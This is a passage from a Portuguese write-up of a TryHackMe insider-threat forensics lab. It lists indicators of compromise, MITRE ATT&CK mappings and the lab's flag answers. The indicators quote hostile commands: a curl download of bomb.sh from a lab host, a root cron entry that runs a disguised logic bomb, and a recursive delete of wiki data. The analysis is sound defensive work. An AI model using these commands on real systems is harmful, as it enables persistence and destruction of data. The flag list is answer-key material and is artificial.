| Arquivo criado na execução | Conteúdo de `/bin/os-update.sh` | `goodbye.txt` (`/goodbye.txt`) |
| Horário do gatilho | `/etc/crontab` (`0 8 * * *`) | `08:00 AM` |

---

## 🚨 Artefatos e Indicadores Identificados (IOCs)

| Tipo | Indicador | Contexto |
|------|-----------|----------|
| Conta (insider) | `cybert` (UID 1001) | Usuário de TI descontente; executou todo o preparo do ataque |
| Conta (backdoor) | `it-admin` (UID 1002) | Criada em 28/12 06:26:53 com `sudo`; dona do `bomb.sh` |
| Evento | `visudo` — `Dec 28 06:27:34` | Concessão de `sudo` ao `it-admin` |
| Arquivo | `/home/it-admin/bomb.sh` | Script malicioso (removido com `rm`) |
| Arquivo | `/bin/os-update.sh` — mtime `2022-12-28 06:29:43 +0000`, 325 bytes | Bomba lógica camuflada de rotina de atualização |
| Arquivo | `/goodbye.txt` | Mensagem de vingança: "*I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA — mistermeist3r*" |
| Diretório-alvo | `/var/lib/dokuwiki` | Dados do wiki apagados (`rm -r`) pela bomba |
| Persistência | `/etc/crontab` → `0 8 * * * root /bin/os-update.sh` | Execução diária às 08:00 como `root` |
| URL / IP | `http://10.10.158.38:8080/bomb.sh` | Origem do download do script |
| Comando | `curl 10.10.158.38:8080/bomb.sh --output bomb.sh` | Criação do `bomb.sh` |
| Arquivo | `/home/it-admin/.viminfo` (dono `root`, 879 B) | Evidência de `sudo vi` |
| Assinatura | `mistermeist3r` | Autor da mensagem do `goodbye.txt` |
| Comando | `sudo passwd root` — `Dec 28 07:01:22 / 07:01:30` | Troca da senha do `root` pelo `cybert` |
| Arquivo | `/etc/ssh/sshd_config` — editado `Dec 28 07:14:07` + `service sshd restart` | Alteração da configuração de SSH |
| Técnica (MITRE ATT&CK) | `T1136.001` | Create Account: Local Account (`it-admin`) |
| Técnica (MITRE ATT&CK) | `T1548.003` | Abuse Elevation Control: Sudo and Sudo Caching (alteração do sudoers) |
| Técnica (MITRE ATT&CK) | `T1053.003` | Scheduled Task/Job: Cron |
| Técnica (MITRE ATT&CK) | `T1105` | Ingress Tool Transfer (`curl` do `bomb.sh`) |
| Técnica (MITRE ATT&CK) | `T1036.005` | Masquerading: Match Legitimate Name or Location (`/bin/os-update.sh`) |
| Técnica (MITRE ATT&CK) | `T1070.004` | Indicator Removal: File Deletion (`rm bomb.sh`) |
| Técnica (MITRE ATT&CK) | `T1485` | Data Destruction (`rm -r /var/lib/dokuwiki`) |
| Técnica (MITRE ATT&CK) | `T1078` | Valid Accounts (abuso de credenciais legítimas por insider) |

---

## ✅ Resumo das Flags

| # | Pergunta | Flag / Resposta |
|---|----------|------------------|
| Q1 | COMMAND completo da instalação do pacote | `/usr/bin/apt install dokuwiki` |
| Q2 | PWD ao executar o comando | `/home/cybert` |
| Q3 | Usuário criado depois da instalação | `it-admin` |
| Q4 | Atualização do sudoers | `Dec 28 06:27:34` |
| Q5 | Script aberto com o `vi` | `bomb.sh` |
| Q6 | Comando que criou o `bomb.sh` | `curl 10.10.158.38:8080/bomb.sh --output bomb.sh` |
| Q7 | Caminho completo do arquivo renomeado | `/bin/os-update.sh` |
| Q8 | Última modificação do arquivo | `Dec 28 06:29` |
| Q9 | Arquivo criado quando o script executa | `goodbye.txt` |
| Q10 | Horário do gatilho | `08:00 AM` |

---

## 📚 Referências

- [TryHackMe — Disgruntled](https://tryhackme.com/room/disgruntled)
- [Linux `auth.log` — Ubuntu Documentation](https://help.ubuntu.com/community/LinuxLogFiles)
- [`crontab(5)` — Linux manual page](https://man7.org/linux/man-pages/man5/crontab.5.html)
- [`sudoers(5)` / `visudo(8)` — Linux manual](https://man7.org/linux/man-pages/man8/visudo.8.html)
- [`last(1)` — Linux manual page](https://man7.org/linux/man-pages/man1/last.1.html)
- [MITRE ATT&CK — T1053.003 Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)
- [MITRE ATT&CK — T1136.001 Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)
- [MITRE ATT&CK — T1548.003 Sudo and Sudo Caching](https://attack.mitre.org/techniques/T1548/003/)
- [MITRE ATT&CK — T1036.005 Match Legitimate Name or Location](https://attack.mitre.org/techniques/T1036/005/)
- [MITRE ATT&CK — T1485 Data Destruction](https://attack.mitre.org/techniques/T1485/)

---